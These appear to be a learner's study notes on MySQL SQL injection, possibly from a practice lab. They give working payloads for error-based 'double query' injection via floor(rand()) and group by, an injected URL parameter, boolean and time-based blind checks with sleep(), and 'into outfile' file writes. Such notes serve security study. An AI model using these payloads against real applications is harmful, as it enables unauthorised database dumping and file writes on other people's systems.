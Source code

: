 **What is double query injection?**

```mysql
Select database();  #query
Select (select database()) #double query injection
#example
select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit n,1),0x3a,floor(rand()*3))a from information_schema.tables group by a;
```

tips: “n” is a outstanding variable which can show the n’s data.

**funtions:**

count(*): select count(*) from users;

rand()*n

floor()

**Core mind:**

1. We need to use rand() function to rise the failure so that we can get the failure information in our html surface. Then we can know the database dump for us!
2. Count(*)!!!!

```mysql
index.php?id=3”) and (select 1 from (select count(*),concat(0x3a,database(), 0x3a,floor(rand()*3))a from information_schema.tables group by a)b) --+
```

### Blind Injection

#### Boolean Injection

function `length ()`

select length (database ());

#### time based

` sleep(num)`

```mysql
Select if(condition, if true, if false)===select if((select database())= ”security”, sleep(10),null)
```

**Core mind:**

in this case, you don’t know the true return of database, and it may return the same ending to you. And it may confuse you a lot. So how to distinguish the end? Use the *sleep()* function. If you get a fake information, it will reply you instantly, or it will wait for n seconds to send you a correct answer.



### Dump File

```mysql
outfile – select * from user into outfile "/tmp/test.txt"
# ?id=1’)) union select 1,database(),3 into outfile “.....”
```
